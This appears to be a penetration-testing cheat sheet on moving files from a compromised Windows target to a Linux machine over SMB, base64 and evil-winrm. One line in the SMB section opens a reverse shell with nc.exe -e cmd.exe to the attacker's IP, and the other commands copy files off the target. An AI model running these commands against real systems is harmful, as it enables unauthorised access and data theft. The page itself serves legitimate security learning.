 ```yaml
---
title: "File Transfer (Windows To Linux)"
date: 2024-6-26
tags: ["file transfer", "Windows", "smb", "evil-winrm"]
---
```


{{< tab set1 tab1 active >}}SMB{{< /tab >}}
{{< tab set1 tab2 >}}Base64{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local SMB Server

<div>

```console
impacket-smbserver share . -smb2support
```

</div>

#### cmd

<div>

```console
# Connect to SMB server without creds
net use \\<LOCAL_IP>\share
```

```console
# Connect to SMB server with creds
net use \\<LOCAL_IP>\share /u:<USER> '<PASSWORD>'
```

```console
# From target Windows to local Linux
copy <FILE> \\<LOCAL_IP>\share
```

```console
# From local Linux to target Windows
copy \\<LOCAL_IP>\share\<FILE> <FILE>
```

```console
# Delete file
del <FILE>
```

```console
# Remove SMB share
net use /d \\<LOCAL_IP>\share
```

```console
# Older Windows (e.g. xp), use directly
\\<LOCAL_IP>\share\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Small binary

<div>

```console
# In target Windows
[System.convert]::ToBase64String((Get-Content -Path 'C:\ProgramData\<FILE>' -Encoding Byte))
```

```console
# Copy and paste the base64 encoded binary to local Linux
echo -n '<BASE64_BINARY>' | base64 -d > <FILE>
```

<small>*Note: For restricted environment*</small>

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```console
# Evil-winrm built-in function
download 'C:\ProgramData\<FILE>' '<LOCAL_DEST_PATH>'
```

</div>

{{< /tabcontent >}}

<br>